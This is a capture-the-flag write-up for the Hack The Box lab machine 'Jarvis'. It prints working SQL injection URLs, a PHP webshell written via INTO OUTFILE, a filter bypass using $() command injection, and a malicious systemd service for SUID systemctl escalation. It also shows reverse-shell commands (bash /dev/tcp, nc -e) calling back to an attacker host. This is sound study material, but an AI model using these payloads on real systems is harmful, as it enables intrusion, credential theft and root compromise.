



---
tags:
  - sqli
  - command_injection
  - systemctl_suid
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Jarvis
- Reference : https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
- Solved : 2025.4.15. (Tue) (Takes 7days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**: Open ports → 22(SSH), 80(HTTP), 64999(HTTP)
    - **Web Enumeration**:
        - Domain: `supersecurehotel.htb`
        - Port 80: Stark Hotel website → SQL Injection found at `room.php?cod=`
        - Port 64999: Blocked or restricted
            
2. **Web Exploitation**
    - **SQL Injection**:
        - Columns: 7
        - Output fields: 2,3,4,5
        - Extracted:
            - DB Name: `hotel`
            - Tables: `room`
            - Columns: `cod, name, price, descrip, star, image, mini`
            - MySQL DB found → Extracted `dbadmin` hash from `mysql.user`
            - Cracked password: `imissyou`
                
3. **Remote Code Execution**
    - **Webshell Upload via SQLi**:
        - Payload: `<?php system($_GET['cmd']); ?>`
        - File Write: `/var/www/html/cmd.php`
        - Verified Command Execution: `cmd=id`
            
4. **Reverse Shell as `www-data`**
    - Used Webshell:
        - Uploaded `php-reverse-shell.php` via wget
        - Got reverse shell as `www-data`
            
5. **Privilege Escalation to `pepper`**
    - **Sudo Enumeration**:
        - www-data can run `/var/www/Admin-Utilities/simpler.py` as `pepper`
    - **Command Injection in simpler.py**:
        - Input Filter Bypass using `$(cmd)`
        - Created reverse shell script
        - Injected payload to execute reverse shell
        - Got shell as `pepper`
            
6. **Privilege Escalation to `root`**
    - **SUID Binary**: `/bin/systemctl`
    - Created malicious service file → reverse shell payload
    - Enabled & Started service
    - Got reverse shell as `root`

### Key Techniques:

- **Web Exploitation**: SQL Injection → File Write → Webshell Upload
- **Reverse Shell**: PHP Webshell, wget reverse shell
- **Privilege Escalation**:
    - Command Injection via Python script bypass
    - Abuse of `systemctl` SUID to load malicious service for root shell

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.143
Performing quick port scan on 10.10.10.143...
Found open ports: 22,80,64999
Performing detailed scan on 10.10.10.143...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-08 01:34 MDT
Nmap scan report for 10.10.10.143
Host is up (0.37s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Stark Hotel
|_http-server-header: Apache/2.4.25 (Debian)
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.33 seconds
```

3 ports are open.

### http(80)


It reveals its domain name : `supersecurehotel.htb`.
Let's add this to `/etc/hosts`.


It seems that the only working link sending GET request is "Room Reservation".

### http(64999)



It seems that the port 64999 is blocking us.


# Shell as `www-data`

### SQL Injection

```
http://supersecurehotel.htb/room.php?cod=1 ORDER BY 7 -- -
```

8 returns error while 7 is ok.
So the number of fields is 7.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,5,6,7 -- -
```


I tested with `UNION` sql injection again, and figured out that only 2,3,4,5 idx fields are featured on the screen.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,database(),6,7 -- -
```

The database name is `hotel`.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name),6,7 FROM information_schema.tables WHERE table_schema='hotel' -- -
```

The table name is `room`.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(column_name),6,7 FROM information_schema.columns WHERE table_name='room' -- -
```

Returned column_names are `cod,name,price,descrip,star,image,mini`.
It seems that the database `hotel` is not that useful for now.
Let's check what other databases exist.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(schema_name),6,7 FROM information_schema.schemata -- -
```

Databases : `hotel,information_schema,mysql,performance_schema`
Let's check `mysql`.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name),6,7 FROM information_schema.tables WHERE table_schema='mysql' -- -
```

Table names : `column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user`

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(column_name),6,7 FROM information_schema.columns WHERE table_name='user' -- -
```

Column names : `Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time`

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,User,3,4,Password,6,7 FROM mysql.user -- -
```


The SQL user `dbadmin`'s password is `*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`.
Let's crack this MD5-look hash.


The cracked password is `imissyou`.

### Webshell upload via SQLi

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,"<?php system($_GET['cmd']); ?>",6,7 INTO OUTFILE '/var/www/html/cmd.php' -- -
```

Using the URL above, I tried writing PHP webshell on `/var/www/html/cmd.php`.
Then, I tried to fetch the uploaded `cmd.php` with `cmd=id` parameter as its payload and it worked.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=id
1       2       3       4       uid=33(www-data) gid=33(www-data) groups=33(www-data)
        6       7
```

Also, I can try `ls -al` using `%20` to replace whitespace.

```yaml
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=ls%20-al
1       2       3       4       total 92
drwxrwxrwx 9 root  root   4096 Apr 13 11:29 .
drwxr-xr-x 4 root  root   4096 Mar  4  2019 ..
drwxrwxrwx 2 root  root   4096 Dec  8  2018 ayax
drwxr-xr-x 2 root  root   4096 Mar  3  2019 b4nn3d
-rw-rw-rw- 1 mysql mysql    43 Apr 13 11:29 cmd.php
-rwxrwxrwx 1 root  root     75 Mar  3  2019 connection.php
drwxrwxrwx 2 root  root   4096 Dec  8  2018 css
-rwxrwxrwx 1 root  root   5803 Mar  4  2019 dining-bar.php
drwxrwxrwx 5 root  root   4096 Dec  8  2018 fonts
-rwxrwxrwx 1 root  root   2237 Mar  4  2019 footer.php
-rwxrwxrwx 1 root  root    292 Dec  8  2018 getfileayax.php
drwxrwxrwx 2 root  root   4096 Dec  8  2018 images
-rwxr-xr-x 1 root  root  14839 Mar  4  2019 index.php
drwxrwxrwx 2 root  root   4096 Dec  8  2018 js
-rwxrwxrwx 1 root  root   1591 Mar  3  2019 nav.php
lrwxrwxrwx 1 root  root     21 Mar  3  2019 phpmyadmin -> /usr/share/phpmyadmin
-rwxrwxrwx 1 root  root   2299 Mar  4  2019 room.php
-rwxrwxrwx 1 root  root   2893 Mar  4  2019 roomobj.php
-rwxrwxrwx 1 root  root   3119 Mar  4  2019 rooms-suites.php
drwxrwxrwx 3 root  root   4096 Dec  8  2018 sass
        6       7
```

Double check the `DBadmin`'s password.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=cat%20connection.php
1       2       3       4       <?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>
        6       7
```

Using this webshell, I can upload `php-reverse-shell.php` and make it run to connect reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=wget%20http://10.10.14.4:8000/rshell.php
1       2       3       4               6       7
```

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9000 
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 51228
Linux jarvis 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64 GNU/Linux
 11:40:16 up 12:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```

### phpmyadmin

Another approach is using the DB credential we found.
There probably is "phpMyAdmin" page since it's running on PHP backend.



I can just reuse the found credential to sign-in.



I observed that the running version of PHP is 4.8.0.
I found one RCE exploit from [exploit-db](https://www.exploit-db.com/exploits/50457).

Using this exploit, I can simply run linux commands on the target server.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I can simply upload reverse shell payload to open reverse shell.
Let's create and upload payload first.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ cat rshell.sh                                        
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.4/9000 0>&1


┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.143 - - [14/Apr/2025 09:25:57] "GET /rshell.sh HTTP/1.1" 200 -
10.10.10.143 - - [14/Apr/2025 09:25:57] "GET /rshell.sh HTTP/1.1" 200 -
```

Let's upload and change its permission.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "wget http://10.10.14.4:8000/rshell.sh -O /tmp/rshell.sh"


┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "chmod +x /tmp/rshell.sh"


┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "ls -al /tmp"             
total 36
drwxrwxrwt  4 root     root     4096 Apr 14 11:28 .
drwxr-xr-x 23 root     root     4096 Oct  5  2023 ..
-rw-r--r--  1 pepper   pepper     33 Apr 14 07:00 flag.txt
drwxr-xr-x  2 www-data www-data 4096 Apr 14 07:06 poc
drwxr-xr-x  2 pepper   pepper   4096 Apr 14 07:17 pspy
-rwxr-xr-x  1 www-data www-data   74 Apr 14 11:25 rshell.sh
-rwxrwxrwx  1 pepper   pepper     61 Apr 14 10:15 shell.sh
-rw-r--r--  1 www-data www-data   52 Apr 14 07:10 ss.sh
-rwxrwxrwx  1 pepper   pepper     38 Apr 14 10:30 test.sh
```

Let's open a reverse shell now.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "bash /tmp/rshell.sh"
```

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 51238
bash: cannot set terminal process group (617): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/usr/share/phpmyadmin$ id
idwho
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Shell as `pepper`

### Enumeration

The user `www-data` can do `sudo` with a python script : `/var/www/Admin-Utilities/simpler.py`

```bash
www-data@jarvis:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Let's run the script and observe its behavior.

```bash
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
< sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```

There are three options to choose;
- `-s` : Show statistics.
- `-l` : List the attackers IP.
- `-p` : Ping an attacker IP.

```bash
www-data@jarvis:/var/www/html$sudo -u pepper /var/www/Admin-Utilities/simpler.py -s
<do -u pepper /var/www/Admin-Utilities/simpler.py -s
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Statistics
-----------
Number of Attackers: 1
Most Risky:
    10.10.14.4 - Attack Level : 3 Request: : GET /site/\'%20UNION%20ALL%20SELECT%20FileToClob(\'/etc/passwd\',\'server\')::html,0%20FROM%20sysusers%20WHERE%20username=USER%20--/.html
Most Recent: 10.10.14.4 --> 2025-04-13 11:44:51 : GET /usr/extensions/get_tree.inc.php?GLOBALS[\\\"root_path\\\"]=http://blog.cirt.net/rfiinc.txt?cmd=id;pwd
```

`-s` option returns a suspicious request log.
My previous attempt was logged here.

```bash
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -l
<do -u pepper /var/www/Admin-Utilities/simpler.py -l
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Attackers
-----------
10.10.14.4 - Attack Level : 3
```

The script with `-l` option returns an IP address with its attack level.

```bash
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 10.10.14.4
10.10.14.4
PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=285 ms
64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=258 ms
...SNIP...
```

It's taking IP address as an input from a user, and send ping to the inputted IP address.
I think it can be exploited to inject commands.

Let's investigate the script.

```python
www-data@jarvis:/var/www/html$ cat /var/www/Admin-Utilities/simpler.py
cat /var/www/Admin-Utilities/simpler.py
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
'''

...SNIP...

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

There it is! It's sending `ping` with inserted IP address and directly run without any inspection.
It has "forbidden" dictionary to filter out command injection.

### Command Injection

```bash
Enter an IP: 127.0.0.1;id
Got you
```

However, when I tried naive `;id` injection, it returned "Got you" message.
I think it's because of the filter.

I reviewed the filter list, and figured out that `$()` syntax is not filtered.
Let's test if it's working.

```bash
Enter an IP: 10.10.14.$(echo 8)
10.10.14.$(echo 8)
PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
64 bytes from 10.10.14.8: icmp_seq=1 ttl=63 time=46.8 ms
64 bytes from 10.10.14.8: icmp_seq=2 ttl=63 time=47.1 ms
```

It works!
Let's open a reverse shell with this.

First, let's prepare a payload.

```bash
www-data@jarvis:/dev/shm$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.4 9001' > rshell_9001.sh
<\nnc -e /bin/bash 10.10.14.4 9001' > rshell_9001.sh
www-data@jarvis:/dev/shm$ cat rshell_9001.sh
cat rshell_9001.sh
#!/bin/bash

nc -e /bin/bash 10.10.14.4 9001
www-data@jarvis:/dev/shm$ chmod +x rshell_9001.sh
chmod +x rshell_9001.sh
www-data@jarvis:/dev/shm$ ls -al
ls -al
total 4
drwxrwxrwt  2 root     root       60 Apr 15 01:56 .
drwxr-xr-x 16 root     root     2900 Apr 12 22:44 ..
-rwxr-xr-x  1 www-data www-data   45 Apr 15 01:56 rshell_9001.sh
```

Then, let's run this payload via command injection.

```bash
www-data@jarvis:/dev/shm$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/dev/shm/rshell_9001.sh)
```

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 58308
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
whoami
pepper
```

I got `pepper`'s shell.


# Shell as `root`

### Enumeration

I checked SUID binaries.

```bash
pepper@jarvis:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Among the binaries, `/bin/systemctl` looks intriguing.
Using this, I think I can escalate privileges to root.

### Privilege escalation

Here's the [reference](https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation) for this approach.

Let's prepare a service as follows;

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ cat root.service 
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9002 0>&1'

[Install]
WantedBy=multi-user.target
```

Then, let's transfer this file to the target server on a writable directory(`/dev/shm`).

```bash
pepper@jarvis:/dev/shm$ wget http://10.10.14.4:8000/root.service
wget http://10.10.14.4:8000/root.service
--2025-04-15 02:36:41--  http://10.10.14.4:8000/root.service
Connecting to 10.10.14.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 169 [application/octet-stream]
Saving to: 'root.service'

root.service          0%[                    ]       0  --.-KB/s           root.service        100%[===================>]     169  --.-KB/s    in 0s      

2025-04-15 02:36:41 (30.9 MB/s) - 'root.service' saved [169/169]
```

Then, using this file, I can enable and start the service.

```bash
pepper@jarvis:/dev/shm$ systemctl enable /dev/shm/root.service
systemctl enable /dev/shm/root.service
Created symlink /etc/systemd/system/multi-user.target.wants/root.service -> /dev/shm/root.service.
Created symlink /etc/systemd/system/root.service -> /dev/shm/root.service.


pepper@jarvis:/dev/shm$ systemctl start root
systemctl start root
```

The listener soon spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 46904
bash: cannot set terminal process group (42299): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# whoami
whoami
root
```

I got `root` shell!